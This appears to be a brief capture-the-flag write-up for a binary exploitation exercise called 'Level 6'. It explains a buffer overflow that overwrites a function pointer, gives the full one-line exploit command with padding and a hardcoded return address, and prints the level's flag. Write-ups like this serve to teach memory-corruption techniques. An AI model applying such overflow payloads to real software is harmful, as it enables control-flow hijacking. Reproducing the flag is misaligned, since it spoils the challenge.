 # Level 6

Here we override the 'f' function pointer so that it points to 'n' instead of 'm'.

```bash
./level6 $(printf "000000000000000000000000000000000000000000000000000000000000000000000000\x54\x84\x04\x08")
```

**Flag:** `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`
